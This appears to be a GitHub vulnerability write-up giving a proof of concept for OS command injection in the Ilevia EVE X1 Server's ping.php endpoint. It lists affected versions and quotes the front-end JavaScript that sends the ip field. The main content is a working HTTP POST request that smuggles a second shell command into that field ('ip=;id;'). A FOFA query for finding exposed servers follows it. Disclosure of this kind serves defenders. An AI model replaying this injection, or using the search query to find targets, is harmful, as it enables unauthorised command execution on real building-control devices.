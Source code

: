 # ilevia-EVE-X1-Server
ilevia-EVE-X1-Server rce poc

## Affected Repository
- Project: Ilevia EVE X1 Server 
- Affect versions: Firmware Version<= 4.7.18.0.eden;Logic Version<=6.00 - 2025_07_21
- File: /ajax/php/ping.php
- homePage: https://www.ilevia.com/
- Dependency: Ilevia EVE X1 Server ( Firmware Version<= 4.7.18.0.eden;Logic Version<=6.00 - 2025_07_21)

## Proof of Concept (PoC)
```
POST /ajax/php/ping.php HTTP/1.1
Host: 
Accept: */*
Origin: http://
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.66 Safari/537.36
content-type: application/x-www-form-urlencoded
Referer: http://ip/diagnostic/
Content-Length: 6

ip=;id;
```
<img width="1307" height="359" alt="image" src="https://github.com/user-attachments/assets/be1a6130-9a3f-4655-80be-80a89a3e5128" />

Front end code

```
function eveCanReachIP(strIP,callback){
	var eve = new eveRequest();
	eve.open("POST","/ajax/php/ping.php",true);
	eve.setRequestHeader("content-type","application/x-www-form-urlencoded");
	eve.onreadystatechange =
	function(){
		switch (eve.readyState) {
		  case 0 : // UNINITIALIZED
		  case 1 : // LOADING
		  case 2 : // LOADED
		  case 3 : // INTERACTIVE
		  break;
		  case 4 : // COMPLETED
			if(eve.status == 200){
				if(eve.responseText == "0"){
					callback(1,eve.responseText);
				}else{
					callback(0,eve.responseText);
				}
			}else{
				callback(1,"[" + eve.status + "][" + eve.responseText + "]");
			}
		  break;
		  default: callback(1,"[" + eve.status + "][" + eve.responseText + "]");
	   }
	}
	eve.send("ip=" + strIP);
}
```
<img width="744" height="388" alt="image" src="https://github.com/user-attachments/assets/44c7d517-1e9b-4bb9-b514-18ee511b1a67" />


## Vulnerability category
- CWE-78 OS Command Injection
## Scope of influence
- fofa：app="ilevia-EVE-X1-Server"
<img width="1482" height="340" alt="image" src="https://github.com/user-attachments/assets/2075aed5-76be-438a-a18e-e2e33380c26f" />
